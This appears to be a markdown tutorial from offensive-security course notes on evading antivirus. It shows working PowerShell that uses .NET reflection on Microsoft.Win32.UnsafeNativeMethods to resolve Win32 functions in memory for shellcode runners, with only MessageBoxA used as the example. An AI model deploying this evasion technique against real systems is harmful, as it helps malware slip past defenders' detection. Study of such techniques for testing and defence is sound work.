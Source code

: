 ## The Need
Our shell are fully executing in memory and can be evaded by antivirus scanning the disk.
However, PowerShell and the .NET framework leave artifacts on the hard drive that antivirus programs can identify.

In this final section, we will be dealing with the same problem.

We will use the .NET framweork's [reflection](https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/concepts/reflection) technique to avoid creating the artifacts that can be detected by antivirus.

## Using UnsafeNativeMethods
Our last shellcode in memory executed 3 primary steps:
- Located the function
- Specified Argument data types from C to C# to powershell
- Invoke the function
 
There are 2 ways to locate functions in unmaged DLLs:
1. The Add-type function we used previously
2. Dynamic Link Lookup

### Wtf is Dynamic link lookup?
It's a way to locate functions in unmanaged DLLs by low level languages like C.
With this path, we can create a .NET assembly in memory instead of writing the code and compiling it on disk.
(yea, complicated.)

## Locating our functions

For this, we will be using 2 main Win32 APIs, these are;
1. [GetModuleHandle](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea)
2. [GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)

We can use these, but we need to use these without using Add-type

We can use the following code, to look for existing assemblies that match our criteria:
```Powershell
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()

$Assemblies |
  ForEach-Object {
    $_.GetTypes()|
      ForEach-Object {
          $_ | Get-Member -Static| Where-Object {
            $_.TypeName.Contains('Unsafe')
          }
      } 2> $null
    }
```

Code summary:
- We first use GetAssemblies to search preloaded assemblies in the powershell process.
- Since each assembly is actually just an object, we'll use the ForEach-Object loop.
- We'll then use Get-types, with the \$_ variable which will contain the current object for each loop, to obtain their methods and structures.
- Then, for each object obtained we're performing another ForEach-Object loop and invoking the Get-Member cmdlet with the -Static flag to only locate static properties and methods.

In C#, when the code wants to directly invoke Win32 APIs, it must provide the Unsafe keyword indicating the use of TypeName.Contains('Unsafe') typename .
Also, the function used must be declared as static to avoid instantiation indicating the use of the -Static flag.


The search gives a big response including 16 occurances of _GetModuleHandle_ and _GetProcAddress_.
Looking for GetModuleHandle, one of them is located in the Microsoft.Win32.UnsafeNativeMethods class.
We also see GetProcAddress in the same class.

We now want to find what assembly are the functions located in, for this, we modify the code as follows:
```Powershell
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()

$Assemblies |
  ForEach-Object {
    $_.Location
    $_.GetTypes()|
      ForEach-Object {
          $_ | Get-Member -Static| Where-Object {
            $_.TypeName.Equals('Microsoft.Win32.UnsafeNativeMethods')
          }
      } 2> $null
    }
```
- We add the Location property in the first loop to print the current assembly location.
-  We also add the TypeName.Equals('Microsoft.Win32.UnsafeNativeMethods') typename to match our needed method instead of all methods

![ps-search-unsafe-systemdll](../../../../../Screenshots/ps-search-unsafe-systemdll.png)]

The output shows that the assembly for our functions is System.dll.


### Problem?
We can't use these methods because they're only meant to be used internally by the .NET code. 0_0 Great.

But we have a work around!


### Solution.
We're gonna develop a way to indirectly call them from Powershell or C#

We start by obtaining a reference to the System.dll assembly with the Get-Type method.
This reference, will then allow us to locate the methods we need.

Code:
```Powershell
$systemdll = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { 
  $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') })
  
$unsafeObj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods')
```
- We start by piping all the assemblies to a Where-Object on 2 conditions:
		- The GlobalAssemblyCache property is set. It's a list of all native and registered assemblies on Windows, which evidently lets us filter out the non-native assemblies.
		- The Location property is a filter to set the last part of the file with System.dll
		- We also use the Split method of the Location property to set a directory delimiter(\\)
		- We select the last element of the object using "-1" and see if it equals to System.dll
- This technique is called [Reflection](https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/concepts/reflection)
- This technique lets us access references to objects that are otherwise internal.

We also use Reflection to access the GetModuleHandle method:
```Powershell
$GetModuleHandle = $unsafeObj.GetMethod('GetModuleHandle')
```

### Moving on
Now that we have our function, we can proceed to use the internal Invoke method to call GetModuleHandle and obtain the base address of an unmanaged DLL

The Invoke method takes 2 arguments:
1. The object to invoke it on, but since we use it on a static method, we can set it to null
2. An array consisting of the arguments for the GetModuleHandle method. We will be supplying the name of the dll.

Code:
```Powershell
$GetModuleHandle.Invoke($null, @("user32.dll"))
```

Moving on the GetProcAddress, we will again use the reflection technique to obtain our funciton:
```Powershell
$GetProcAddress = $unsafeObj.GetMethod('GetProcAddress')
```

However, we run into an error "Ambiguous match found."
This happens because there are multiple instances of GetProcAddress with the _Microsoft.Win32.UnsafeNativeMethods_.
Solution?
We just need to use GetMethods to obtain all of them and then we can proceed to filter out the one we need.
We can do this by changing our code to this:
```Powershell
$unsafeObj.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$_}}
```

We can use this by:
1. Creating an empty array and store both of them in it.
2. Referencing the element of the array to access the function.

The following code will do so:
```Powershell
$user32 = $GetModuleHandle.Invoke($null, @("user32.dll"))
$tmp=@()
$unsafeObj.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
$GetProcAddress = $tmp[0]
$GetProcAddress.Invoke($null, @($user32, "MessageBoxA"))
```
The C version of GetProcAddress takes 2 arguments:
- Base address of the DLL - $user32 array
- Name of the function - MessageBoxA

Our final code to locate the function will look like so:
```Powershell
function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}
```


